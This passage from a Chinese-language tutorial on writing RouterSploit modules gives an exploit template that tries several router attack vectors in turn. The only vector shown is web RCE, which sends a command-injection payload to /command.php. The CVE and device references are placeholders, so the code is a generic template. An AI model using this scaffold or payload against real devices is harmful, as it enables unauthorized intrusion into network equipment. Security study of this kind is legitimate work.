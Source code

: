 
## 六、自定义模块开发高级技巧

### 1. 高级模块模板

```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient
from routersploit.core.tcp.tcp_client import TCPClient
import hashlib
import hmac

class AdvancedExploit(HTTPClient, TCPClient):
    """高级漏洞利用模板"""
    
    __info__ = {
        "name": "Advanced Multi-Vector Exploit",
        "description": "Combines multiple attack vectors for higher success rate",
        "authors": ("Advanced Threat Team",),
        "references": ("CVE-2023-XXXXX", "CVE-2023-YYYYY"),
        "devices": ("Vendor Model Series",)
    }
    
    target = OptIP("", "Target IP address")
    port = OptPort(80, "Target port")
    ssl = OptBool(False, "SSL support")
    threads = OptInteger(5, "Number of threads")
    
    def __init__(self):
        self.attack_vectors = [
            self._vector_web_rce,
            self._vector_telnet_backdoor,
            self._vector_ssh_key_extraction,
            self._vector_firmware_downgrade
        ]
        self.successful_vector = None
    
    def run(self):
        """多向量攻击执行"""
        print_status("Starting multi-vector attack...")
        
        for vector in self.attack_vectors:
            try:
                if vector():
                    self.successful_vector = vector.__name__
                    print_success(f"Attack successful via {self.successful_vector}")
                    return True
            except Exception as e:
                print_error(f"Vector {vector.__name__} failed: {e}")
                continue
        
        print_error("All attack vectors failed")
        return False
    
    def _vector_web_rce(self):
        """Web RCE攻击向量"""
        # 实现Web RCE逻辑
        payload = "'; $(id) #"
        response = self.http_request(
            method="POST",
            path="/command.php",
            data={"input": payload}
        )
```